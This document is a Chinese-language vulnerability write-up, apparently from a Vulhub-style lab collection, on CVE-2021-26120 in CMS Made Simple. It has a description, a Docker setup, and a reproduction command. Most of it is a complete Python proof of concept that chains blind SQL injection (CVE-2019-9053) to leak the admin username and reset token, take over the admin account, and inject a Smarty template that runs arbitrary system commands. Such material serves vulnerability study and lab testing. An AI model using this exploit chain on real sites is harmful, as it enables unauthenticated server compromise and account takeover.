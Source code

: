 # CMS Made Simple (CMSMS) 前台代码执行漏洞 CVE-2021-26120

## 漏洞描述

CMS Made Simple（CMSMS）是一个免费的开放源码内容管理系统，为开发人员、程序员和网站所有者提供基于网络的开发和管理功能。

Smarty 3.1.39 之前的版本允许在 `{function name=` 子串后注入PHP代码，导致代码注入漏洞，该漏洞即为CVE-2021-26120。

CMS Made Simple 版本 <= 2.2.15，拥有设计师权限的用户可以在后台利用服务端模板注入漏洞，即为前面提到的CVE-2021-26120。

因此，如果CMSMS版本低于2.2.9.1，未授权的攻击者可以结合[CVE-2019-9053](https://github.com/vulhub/vulhub/tree/master/cmsms/CVE-2019-9053)和CVE-2021-26120漏洞，在服务器上执行任意代码。

参考链接：

- [https://www.exploit-db.com/exploits/46635](https://www.exploit-db.com/exploits/46635)
- [https://srcincite.io/pocs/cve-2021-26120.py.txt](https://srcincite.io/pocs/cve-2021-26120.py.txt)

## 环境搭建

Vulhub执行如下命令启动一个CMS Made Simple 2.2.9.1服务器：

```
docker compose up -d
```

环境启动后，需要访问`http://your-vps-ip/install.php`并安装CMS服务。

安装过程请根据页面中的安装向导来进行，其中MySQL数据库的地址是`db`，数据库名是`cmsms`，账号和密码均为`root`。

![](images/CMS%20Made%20Simple%20(CMSMS)%20前台代码执行漏洞%20CVE-2021-26120/image-20240226163028111.png)

## 漏洞复现

使用[https://srcincite.io/pocs/cve-2021-26120.py.txt](https://srcincite.io/pocs/cve-2021-26120.py.txt)中分享的[POC](https://github.com/vulhub/vulhub/blob/master/cmsms/CVE-2021-26120/poc.py)，可以使用SQL注入漏洞重置管理员密码，并执行任意命令 ：

```
(py27) python poc.py your-vps-ip / id
```

![](images/CMS%20Made%20Simple%20(CMSMS)%20前台代码执行漏洞%20CVE-2021-26120/image-20240226164546590.png)

可见，`id`命令已被成功执行。

## 漏洞POC

```python
import requests
import sys
import re
from time import sleep
from lxml import etree

def login(s, t, usr):
    uri = "%sadmin/login.php" % t
    s.get(uri)
    d = {
        "username" : usr,
        "password" : usr,
        "loginsubmit" : "Submit"
    }
    r = s.post(uri, data=d)
    match = re.search("style.php\?__c=(.*)\"", r.text)
    assert match, "(-) login failed"
    return match.group(1)

def trigger_or_patch_ssti(s, csrf, t, tpl):
    # CVE-2021-26120 
    d = {
        "mact": 'DesignManager,m1_,admin_edit_template,0',
        "__c" : csrf,
        "m1_tpl" : 10,
        "m1_submit" : "Submit",
        "m1_name" : "Simplex",
        "m1_contents" : tpl
    }
    r = s.post("%sadmin/moduleinterface.php" % t, files={}, data=d)
    if "rce()" in tpl:
        r = s.get("%sindex.php" % t)
        assert ("endrce" in r.text), "(-) rce failed!"
        cmdr = r.text.split("endrce")[0]
        print(cmdr.strip())

def determine_bool(t, exp):
    p = {
       "mact" : "News,m1_,default,0",
       "m1_idlist": ",1)) and %s-- " % exp
    }
    r = requests.get("%smoduleinterface.php" % t, params=p) 
    return True if r.text.count("Posted by:") == 2 else False

def trigger_sqli(t, char, sql, c_range):
    # CVE-2019-9053
    for i in c_range:
        # <> characters are html escaped so we just have =
        # substr w/ from/for because anymore commas and the string is broken up resulting in an invalid query
        if determine_bool(t, ",1)) and ascii(substr((%s) from %d for 1))=%d-- " % (sql, char, i)): return chr(i) 
    return -1
    
def leak_string(t, sql, leak_name, max_length, c_range):
    sys.stdout.write("(+) %s: " % leak_name)
    sys.stdout.flush()
    leak_string = ""
    for i in range(1,max_length+1):
        c = trigger_sqli(t, i, sql, c_range)
        # username is probably < 25 characters
        if c == -1:
            break
        leak_string += c
        sys.stdout.write(c)
        sys.stdout.flush()
    assert len(leak_string) > 0, "(-) sql injection failed for %s!" % leak_name
    return leak_string    
    
def reset_pwd_stage1(t, usr):
    d = {
        "forgottenusername" : usr,
        "forgotpwform" : 1,
    }
    r = requests.post("%sadmin/login.php" % t, data=d)
    assert ("User Not Found" not in r.text), "(-) password reset failed!"

def reset_pwd_stage2(t, usr, key):
    d = {
        "username" : usr,
        "password" : usr,      # just reset to the username
        "passwordagain" : usr, # just reset to the username
        "changepwhash" : key,
        "forgotpwchangeform": 1,
        "loginsubmit" : "Submit",
    }
    r = requests.post("%sadmin/login.php" % t, data=d)
    match = re.search("Welcome: <a href=\"myaccount.php\?__c=[a-z0-9]*\">(.*)<\/a>", r.text)
    assert match, "(-) password reset failed!"
    assert match.group(1) == usr, "(-) password reset failed!"

def leak_simplex(s, t, csrf):
    p = {
        "mact" : "DesignManager,m1_,admin_edit_template,0",
        "__c" : csrf,
        "m1_tpl" : 10
    }
    r = s.get("%sadmin/moduleinterface.php" % t, params=p)
    page = etree.HTML(r.text)
    tpl = page.xpath("//textarea//text()")
    assert tpl is not None, "(-) leaking template failed!"
    return "".join(tpl)

def remove_locks(s, t, csrf):
    p = {
        "mact" : "DesignManager,m1_,admin_clearlocks,0",
        "__c" : csrf,
        "m1_type" : "template"
    }
    s.get("%sadmin/moduleinterface.php" % t, params=p)

def main():
    if(len(sys.argv) < 4):
        print("(+) usage: %s <host> <path> <cmd>" % sys.argv[0])
        print("(+) eg: %s 192.168.75.141 / id" % sys.argv[0])
        print("(+) eg: %s 192.168.75.141 /cmsms/ \"uname -a\"" % sys.argv[0])
        return
    pth = sys.argv[2]
    cmd = sys.argv[3]
    pth = pth + "/" if not pth.endswith("/") else pth
    pth = "/" + pth if not pth.startswith("/") else pth
    target = "http://%s%s" % (sys.argv[1], pth)
    print("(+) targeting %s" % target)
    if determine_bool(target, "1=1") and not determine_bool(target, "1=2"):
        print("(+) sql injection working!")
    print("(+) leaking the username...")
    username = leak_string(
        target,
        "select username from cms_users where user_id=1",
        "username",
        25, # username column is varchar(25) in the db
        list(range(48,58)) + list(range(65,91)) + list(range(97,123)) # charset: 0-9A-Za-z
    )
    print("\n(+) resetting the %s's password stage 1" % username)
    reset_pwd_stage1(target, username)
    print("(+) leaking the pwreset token...")
    pwreset = leak_string(
        target,
        "select value from cms_userprefs where preference=0x70777265736574 and user_id=1", # qoutes will break things
        "pwreset",
        32, # md5 hash is always 32
        list(range(48,58)) + list(range(97,103)) # charset: 0-9a-f
    )
    print("\n(+) done, resetting the %s's password stage 2" % username)
    reset_pwd_stage2(target, username, pwreset)
    session = requests.Session()
    print("(+) logging in...")
    csrf = login(session, target, username)
    print("(+) leaking simplex template...")
    remove_locks(session, target, csrf)
    simplex_tpl = leak_simplex(session, target, csrf)
    print("(+) injecting payload and executing cmd...\n")
    rce_tpl = "{function name='rce(){};system(\"%s\");function '}{/function}endrce" % cmd
    trigger_or_patch_ssti(session, csrf, target, rce_tpl+simplex_tpl)
    while True:
        r = session.get("%sindex.php" % target)
        if "endrce" not in r.text:
            break
        trigger_or_patch_ssti(session, csrf, target, simplex_tpl)

if __name__ == '__main__':
    main()
```
